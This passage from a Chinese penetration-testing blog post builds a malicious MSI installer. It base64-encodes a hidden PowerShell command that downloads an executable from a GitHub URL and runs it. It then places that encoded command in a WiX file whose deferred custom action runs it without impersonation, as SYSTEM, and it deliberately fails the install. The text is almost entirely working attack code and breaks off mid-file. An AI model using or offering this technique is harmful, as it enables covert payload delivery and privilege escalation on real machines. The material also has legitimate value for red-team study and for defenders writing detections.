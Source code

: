 该方法我之前的两篇文章[《渗透测试中的msiexec》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84msiexec/)[《渗透技巧——从Admin权限切换到System权限》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E4%BB%8EAdmin%E6%9D%83%E9%99%90%E5%88%87%E6%8D%A2%E5%88%B0System%E6%9D%83%E9%99%90/)有过介绍，细节不再赘述

首先将powershell实现下载执行的代码作base64编码：

```
$fileContent = "(new-object System.Net.WebClient).DownloadFile('https://github.com/3gstudent/test/raw/master/putty.exe','c:\download\a.exe');start-process 'c:\download\a.exe'"
$bytes  = [System.Text.Encoding]::Unicode.GetBytes($fileContent);
$encoded = [System.Convert]::ToBase64String($bytes); 
$encoded
```

得到：

`KABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACcAaAB0AHQAcABzADoALwAvAGcAaQB0AGgAdQBiAC4AYwBvAG0ALwAzAGcAcwB0AHUAZABlAG4AdAAvAHQAZQBzAHQALwByAGEAdwAvAG0AYQBzAHQAZQByAC8AcAB1AHQAdAB5AC4AZQB4AGUAJwAsACcAYwA6AFwAZABvAHcAbgBsAG8AYQBkAFwAYQAuAGUAeABlACcAKQA7AHMAdABhAHIAdAAtAHAAcgBvAGMAZQBzAHMAIAAnAGMAOgBcAGQAbwB3AG4AbABvAGEAZABcAGEALgBlAHgAZQAnAA==`

完整powershell命令为：

`powershell -WindowStyle Hidden -enc KABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACcAaAB0AHQAcABzADoALwAvAGcAaQB0AGgAdQBiAC4AYwBvAG0ALwAzAGcAcwB0AHUAZABlAG4AdAAvAHQAZQBzAHQALwByAGEAdwAvAG0AYQBzAHQAZQByAC8AcAB1AHQAdAB5AC4AZQB4AGUAJwAsACcAYwA6AFwAZABvAHcAbgBsAG8AYQBkAFwAYQAuAGUAeABlACcAKQA7AHMAdABhAHIAdAAtAHAAcgBvAGMAZQBzAHMAIAAnAGMAOgBcAGQAbwB3AG4AbABvAGEAZABcAGEALgBlAHgAZQAnAA==`

完整wix文件为：

```
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
  <Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product 
Name" Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
    <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
    <Media Id="1" />

    <Directory Id="TARGETDIR" Name="SourceDir">
      <Directory Id="ProgramFilesFolder">
        <Directory Id="INSTALLLOCATION" Name="Example">
          <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">     
          </Component>
        </Directory>
      </Directory>
    </Directory>

    <Feature Id="DefaultFeature" Level="1">
      <ComponentRef Id="ApplicationFiles"/>
    </Feature>

    <Property Id="cmdline">powershell -WindowStyle Hidden -enc KABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACcAaAB0AHQAcABzADoALwAvAGcAaQB0AGgAdQBiAC4AYwBvAG0ALwAzAGcAcwB0AHUAZABlAG4AdAAvAHQAZQBzAHQALwByAGEAdwAvAG0AYQBzAHQAZQByAC8AcAB1AHQAdAB5AC4AZQB4AGUAJwAsACcAYwA6AFwAZABvAHcAbgBsAG8AYQBkAFwAYQAuAGUAeABlACcAKQA7AHMAdABhAHIAdAAtAHAAcgBvAGMAZQBzAHMAIAAnAGMAOgBcAGQAbwB3AG4AbABvAGEAZABcAGEALgBlAHgAZQAnAA==
    </Property>

    <CustomAction Id="SystemShell" Execute="deferred" Directory="TARGETDIR" 
ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>

    <CustomAction Id="FailInstall" Execute="deferred" Script="vbscript" Return="check">
      invalid vbs to fail install
    </CustomAction>

```